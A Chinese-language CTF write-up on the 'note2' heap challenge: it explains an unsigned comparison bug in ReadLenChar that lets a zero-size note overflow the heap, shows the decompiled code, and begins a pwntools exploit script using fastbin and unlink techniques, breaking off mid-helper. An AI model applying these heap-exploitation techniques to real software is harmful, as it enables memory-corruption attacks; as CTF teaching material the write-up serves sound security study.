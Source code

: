 仔细分析后，可以发现程序有以下几个问题

1. 在添加note时，程序会记录note对应的大小，该大小会用于控制读取note的内容，但是读取的循环变量i是无符号变量，所以比较时都会转换为无符号变量，那么当我们输入size为0时，glibc根据其规定，会分配0x20个字节，但是程序读取的内容却并不受到限制，故而会产生堆溢出。
2. 程序在每次编辑note时，都会申请0xa0大小的内存，但是在 free 之后并没有设置为NULL。

第一个问题对应在ida中的代码如下

```c
unsigned __int64 __fastcall ReadLenChar(__int64 a1, __int64 a2, char a3)
{
  char v4; // [sp+Ch] [bp-34h]@1
  char buf; // [sp+2Fh] [bp-11h]@2
  unsigned __int64 i; // [sp+30h] [bp-10h]@1
  __int64 v7; // [sp+38h] [bp-8h]@2

  v4 = a3;
  for ( i = 0LL; a2 - 1 > i; ++i )
  {
    v7 = read(0, &buf, 1uLL);
    if ( v7 <= 0 )
      exit(-1);
    if ( buf == v4 )
      break;
    *(_BYTE *)(i + a1) = buf;
  }
  *(_BYTE *)(a1 + i) = 0;
  return i;
}
```

其中i是unsigned类型，a2为int类型，所以两者在for循环相比较的时候，a2-1的结果-1会被视为unsigned类型，此时，即最大的整数。所以说可以读取任意长度的数据，这里也就是后面我们溢出所使用的办法。

### 基本思路

这里我们主要利用发现的第一个问题，主要利用了 fastbin 的机制、unlink 的机制。

下面依次进行讲解。

#### 基本操作

首先，我们先把note可能的基本操作列举出来。

```python
p = process('./note2')
note2 = ELF('./note2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'debug'


def newnote(length, content):
    p.recvuntil('option--->>')
    p.sendline('1')
    p.recvuntil('(less than 128)')
    p.sendline(str(length))
    p.recvuntil('content:')
    p.sendline(content)


def shownote(id):
    p.recvuntil('option--->>')
    p.sendline('2')
    p.recvuntil('note:')
    p.sendline(str(id))


def editnote(id, choice, s):
```